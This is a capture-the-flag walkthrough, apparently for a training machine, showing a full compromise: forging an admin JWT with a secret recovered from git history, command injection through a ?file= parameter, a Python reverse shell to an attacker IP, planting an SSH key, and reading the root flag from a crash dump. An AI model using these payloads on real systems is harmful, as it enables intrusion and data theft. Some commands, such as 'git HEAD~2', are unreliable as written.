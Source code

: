 IT'S ALL ABOUT READING DOCS.
---
![](https://i.ibb.co/nfFw67L/secret.png)\
\
\
*note that i skipped useless parts like "we can see this, but as we can see, it's not important to us"*\
*note1 that i don't recommend to blindly copy + paste, you will learn nothing. do your own research. :)*

```
POST /api/user/register HTTP/1.1
Content-Type: application/json //important to add
[blabla]

  {
	"name": "hihihi",
	"email": "hihihi@gmail.com",
	"password": "hihihi"
  }
```
`response : {"user": "hihihi"} // user created`
\
\
\
```
POST /api/user/login HTTP/1.1
[BLABLA]
  {
	"email": "hihihi@gmail.com",
	"password": "hihihi"
  }
```
`response : [OUR JWT TOKEN.... ALSO AS auth-token header.]`
\
\
**/download - DOWNLOAD THE SOURCE CODE**

`// important to proceed further, easily discoverable by gobuster, ffuf,.. what do you prefer`

- we can see, that in .env file, there's **theadmin** user.     `// in jwt.io, rename yourself to "theadmin"`
- the secret seems to be **secret**, but it's false. (checking with jwt.io)     `// reading the file + trying it in burp.. token is invalid.`
- as we can see .git, we can try `git log` to see changes.     `// yes`
```
commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons // one of the snippets, that is key to us.
```
THE COMMAND FOR TIME TRAVEL BACK IS : `git HEAD~2`.
after that, we can see **TOKEN_SECRET**, with different secret    
\
`// the secret works, trust me... or more like try it.`

```
GET /api/priv 
auth-token: [token with secret]
```
`response : "desc":"welcome back admin"            // confirms it works.`
\
\
\
- with the command `git HEAD~2`, we can also see a snippet of js code : 
```
router.get('/logs', verifytoken, (req, res) => {
+    const file = req.query.file;     // creates ?file param.
+    const userinfo = { name: req.user }
+    const name = userinfo.name.name;
```
- the most interesting for us is `req.query.file`, which creates ?file= param.
\
`?file=index.js;id // command injection`\
`?file=index.js;cat+/home/dasith/user.txt // getting USER FLAG [not gonna leak for you]`

now, we need to get into the server. found this cool blog : https://www.aldeid.com/wiki/Command-injection-to-shell --> it is not working, but interesting method as well. nice to read.


`python3+-c+'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[your ip]",[port]));os.dup2(s.fileno(),0);+os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import+pty;+pty.spawn("sh")' // classic way ; it works. (done with burp)`

So, we got reverse shell, but let's be honest, reverse shell is shit. as we can see from nmap scan, 22 is open, meaning we can connect via ssh.
\
- let's go into `/home/dasith` directory ;
```
mkdir .ssh
cd .ssh
ssh-keygen -t rsa //spam enter
cat id_rsa.pub > authorized_keys
chmod 600 authorized_keys
chmod 700 id_rsa
cd ..
chmod 700 .ssh
```

- copy the id_rsa into your machine `//cat id_rsa and copy it`
```
ssh -o StrictHostKeyChecking=no -i id_rsa dasith@10.10.11.120 uptime // add our host to verified
ssh -id_rsa dasith@10.10.11.120 //connect 
```
- in `/opt`, there's strange file **count**

`./count`

**note:** here, i was stuck for a long period of time. especially with the `apport-unpack`, which i never heard of.
```
Enter source file/directory name: /root/root.txt // we want to get root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ctrl^Z // background the proccess
```
let's kill it!
```
ps //see PID of the script
kill -SIGSEGV [PID] // kill the proccess
fg // get back from background
Segmentation fault (core dumped) // BroKEn
```
as we can see, we broke it.
crash logs are in `/var/crash/`. there, we can use one cool utility i didn't know = `apport-unpack`

`apport-unpack _opt_count.1000.crash [directory whenever you want] // 1000 is right, others are useless`\
`cd [crashes]`

now, most interesting is CoreDump obviously, since the error was `Segmentation fault (core dumped)`\
`strings CoreDump // find the root flag.`

thanks.

**what i used :** 
\
              https://askubuntu.com/questions/45679/ssh-connection-problem-with-host-key-verification-failed-error \
              https://jwt.io/ \
              https://www.unix.com/man-page/linux/1/apport-unpack/ 
              
https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens for jwt pentesting.
              
